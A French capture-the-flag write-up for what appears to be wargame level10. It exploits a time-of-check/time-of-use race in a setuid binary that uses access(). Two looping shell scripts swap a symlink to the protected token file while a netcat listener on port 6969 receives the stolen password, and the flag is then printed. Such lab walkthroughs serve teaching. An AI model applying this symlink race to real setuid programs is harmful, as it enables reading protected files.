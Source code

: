 On trouve dans le dossier home un file token et un binaire ./level10 qui, si on le lance nous affiche un message:
<pre><code>> ./level10
./level10 file host
		sends file to host if you have access to it

> ./level10 token 192.168.1.42
You don't have access to token
</code></pre>
> on suppose que l'host est l'ip sur laquelle la machine tourne (<code>ifconfig</code>)

On creer un fichier dans /tmp qui aura nos droits, et qui pourra donc être envoyé:
<pre><code>> echo "test" > /tmp/test
> ./level10 /tmp/test 192.168.1.42
Connecting to 192.168.1.42:6969 .. Unable to connect to host 192.168.1.42
</code></pre>

On cherche a savoir ce qu'il se passe dans le binaire avec un fichier valide:
<pre><code>> ltrace ./level10 /tmp/test 192.168.1.42
__libc_start_main(0x80486d4, 3, 0xbffff7c4, 0x8048970, 0x80489e0 <unfinished ...>
access("/tmp/test", 4)= 0
printf("Connecting to %s:6969 .. ", "192.168.1.42")= 35
fflush(0xb7fd1a20Connecting to 192.168.1.42:6969 .. )= 0
socket(2, 1, 0)= 3
inet_addr("192.168.1.42")= 0x2a01a8c0
htons(6969, 1, 0, 0, 0)= 14619
connect(3, 0xbffff70c, 16, 0, 0)= -1
printf("Unable to connect to host %s\n", "192.168.1.42"Unable to connect to host 192.168.1.42)= 39
exit(1 <unfinished ...>
+++ exited (status 1) +++
</code></pre>

On observe que la commande **access** est utilisée, or on sait grâce a son man, que cette commande possède une faille
<pre>
Warning: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and  opening  the file to manipulate it.
</pre>
> Cette faille se nomme la **race-condition-vulnerability**.

De plus on abserve la tentative de connexion au port 6969 qui n'est pas actif.
Pour que les requetes ce fassent, il faut donc ecouter le port grâce a :
<pre><code>> nc -lk 6969</code></pre>
Et si on relance notre commande:
<pre><code>> ./level10 /tmp/test 192.168.1.42
Connecting to 192.168.1.42:6969 .. Connected!
Sending file .. wrote file!</code></pre>
> Il faut 2 terminaux pour efftuer cette manipulation afin de voir le resultat de l'écoute qui dans cette exemple nous donne :
> <pre><code>.*( )*.
> test</code></pre>


On va donc chercher a exploiter la **race-condition-vulnerability**, avec 2 scripts:

### /tmp/loop.sh
```bash
# Ce script lance la requete d'envoie de fichier en boucle
while true;
do
	/home/user/level10/level10 /tmp/link 192.168.1.42 > /dev/null
done
```
> <code>printf "while true;\ndo\n\t/home/user/level10/level10 /tmp/link 192.168.1.42 > /dev/null\ndone\n" > /tmp/loop.sh</code>

### /tmp/ln.sh
```bash
# Ce script creer un fichier sur lequel on a les droits et fait un lien symbolique du fichier token en boucle
while true;
do
	rm -f /tmp/link
	touch /tmp/link
	rm -f /tmp/link
	ln -s /home/user/level10/token /tmp/link
done
```
> <code>printf "while true;\ndo\n\trm -f /tmp/link\n\ttouch /tmp/link\n\trm -f /tmp/link\n\tln -s /home/user/level10/token /tmp/link\ndone\n" > /tmp/ln.sh</code>

Il suffit de lancer les deux en background et de regarder le deuxieme terminal qui ecoute le port 6969 en attendant les deux scripts s'execute de maniere assez proche pour que la **race-condition-vulnerability** soit exploitée :
<pre><code>> sh /tmp/loop.sh &
> sh /tmp/ln.sh &
<code></pre>
On obtient donc: 
<pre><code>...
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
...
</code></pre>

On test le mot de passe :
<pre>
<code>> su flag10</code>
<code>Password: woupa2yuojeeaaed06riuj63c</code>
</pre>

On obtient la phrase magique **Don't forget to launch getflag !**

<pre>
<code>> getflag</code>
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
</pre>